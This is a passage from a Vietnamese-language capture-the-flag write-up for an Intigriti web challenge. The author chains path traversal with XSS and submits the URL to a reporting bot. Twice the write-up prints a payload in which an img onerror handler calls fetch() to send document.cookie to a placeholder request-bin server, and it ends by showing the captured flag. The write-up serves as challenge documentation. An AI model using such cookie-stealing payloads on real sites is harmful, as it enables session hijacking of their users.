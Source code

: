* Sau khi tạo lại note mới và sử dụng payload cũ thì mình nhận được kết quả sau

![image](./images/image60.png)

* Yeah ! Everything works fine. Việc của mình là chỉnh lại payload để fetch cookie từ bot thông qua /report thôi 

```http://127.0.0.1/view?note=<note_id>&name=....//....//....//contact%3fxss=%3Cimg/src/onerror=fetch(%27<request_bin_server>/?%27%2bdocument.cookie)%3E```

Kết quả sau khi submit

![image](./images/image61.png)


Well, có vấn đề sau khi mình submit nên mình sẽ đọc lại /report

![image](./images/image62.png)

có thể thấy noteid sẽ lấy 36 ký tự cuối của url nên mình sẽ đổi payload lại là 

```http://127.0.0.1/view?name=....//....//....//contact%3fxss=%3Cimg/src/onerror=fetch(%27<request_bin_server>/?%27%2bdocument.cookie)%3E&note=<note_id>```

Sau khi chạy lại thì mình cũng submit thành công

![image](./images/image63.png)

Kiểm tra server ở đây mình dùng webhook để catch request và nhận được request sau chứa flag 

![image](./images/image64.png)

Flag : INTIGRITI{plz_solve_locally_first_THEN_repeat_on_remote_server}

## Greetings

```